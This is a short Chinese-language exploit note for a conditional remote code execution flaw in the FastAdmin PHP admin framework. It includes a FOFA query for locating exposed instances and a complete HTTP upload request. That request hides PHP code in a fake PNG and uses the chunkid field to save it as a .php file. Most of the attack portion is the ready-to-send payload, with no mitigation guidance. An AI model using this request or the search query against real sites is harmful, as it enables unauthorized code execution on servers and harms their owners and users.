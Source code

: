 # FastAdmin 框架远程代码执行漏洞


FastAdmin是一款基于ThinkPHP和Bootstrap的极速后台开发框架。FastAdmin框架存在有条件RCE漏洞，当攻击者具有一定用户权限的前提下，可以实现任意文件上传，导致RCE。

FOFA：

```
app="FASTADMIN-框架" || body="\"uploadurl\":\"ajax\/upload\"" || body="api.fastadmin.net" || body="\"fastadmin\":{\"usercenter\":true" || body="content=\"FastAdmin\"" || body="cdnurl\":\"\",\"version"|| icon_hash="-1036943727"
```

详细分析可以见：https://mp.weixin.qq.com/s/otrH75ZjCHBQbRB7g5DdWg

条件：

* 普通用户
* chunking = true （开启分片上传功能）

上传头像处post：

```
//传入xx.php
POST /index/ajax/upload HTTP/1.1
Host: target

------WebKitFormBoundarybw5c2a2bqlLLOMEU
Content-Disposition: form-data; name="file"; filename="Xnip2021-04-02_11-05-27.png"
Content-Type: application/octet-stream

PNG
...
<?php phpinfo();?>
------WebKitFormBoundarybw5c2a2bqlLLOMEU
Content-Disposition: form-data; name="chunkid"

xx.php

------WebKitFormBoundarybw5c2a2bqlLLOMEU
Content-Disposition: form-data; name="chunkindex"

0
------WebKitFormBoundarybw5c2a2bqlLLOMEU
```

![-w692](images/16215847478584/16215847933888.jpg)


ref：

* https://mp.weixin.qq.com/s/otrH75ZjCHBQbRB7g5DdWg
* https://mp.weixin.qq.com/s/XP9t0TkObawMTSb41Z13gw
* https://nosec.org/home/detail/4713.html
* https://forum.ywhack.com/thread-115352-1-6.html